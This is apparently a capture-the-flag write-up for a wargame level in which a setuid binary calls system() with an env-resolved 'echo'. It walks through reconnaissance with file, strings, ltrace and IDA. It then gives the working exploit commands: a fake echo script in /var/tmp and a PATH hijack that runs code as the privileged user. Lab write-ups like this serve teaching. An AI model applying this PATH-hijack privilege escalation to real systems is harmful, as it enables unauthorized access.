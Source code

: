## Phase 1: Reconnaissance

Initial investigation involved listing the directory contents with `ls -la`

An executable file was found that, when run, asks to be exploited

This indicates an exercise on reverse engineering and vulnerability exploitation

---

## Phase 2: Target Research on System

I analyzed the file with the following command:

```bash
file ./level03
```

The output was:

```txt
./level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

</br>

Further investigation with the `strings` command revealed it's a C file, compiled with GNU C 4.6.3
>A search for vulnerable C functions (such as `strcpy`, `gets`, `scanf`, `sprintf`, `memcpy`) didn't reveal anything interesting

</br>

I used `ltrace` to intercept `.dll` calls and found that the `system()` function is used to call a shell command (`/usr/bin/env echo Exploit me`) which might be exploitable

```bash
ltrace ./level03
```
</br>
I transfered the executable to my local machine and opened it with IDA Free disassembler

>The `main` function of the binary was examined:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+18h] [ebp-8h]
  int v5; // [esp+1Ch] [ebp-4h]

  v4 = getegid();
  v5 = geteuid();
  setresgid(v4, v4, v4);
  setresuid(v5, v5, v5);
  return system("/usr/bin/env echo Exploit me");
}
```


- I found that the function `system("/usr/bin/env echo Exploit me")` searches for the first instance of the `echo` command in the directories listed in the `PATH` environment variable, therefore, creating a fake `echo` command could allow it to be executed instead of the system's `echo`

---

## Phase 3: Exploitation

Writable folders were searched for to start writing the fake `echo` script:

```bash
find / -type d -writable 2>/dev/null
```

A simple test script was created to confirm the vunlnerability and added in `/var/tmp`:

```bash
echo "EXPLOITED"
```

The path of the script was added to the `PATH` environment variable and executable permission was granted:

```bash
export PATH=/var/tmp:$PATH
chmod +x /var/tmp/echo
```

After running the binary again, it successfully prints "EXPLOITED", indicating successful arbitrary code execution

Adding the `whoami` command to the script printed `flag03`, confirming the exploit

---

## Solved

<details>
        <summary>Click to reveal solution</summary>
        Adding the getflag command to the fake echo script, obtain the token, and move to level04
</details>  

---

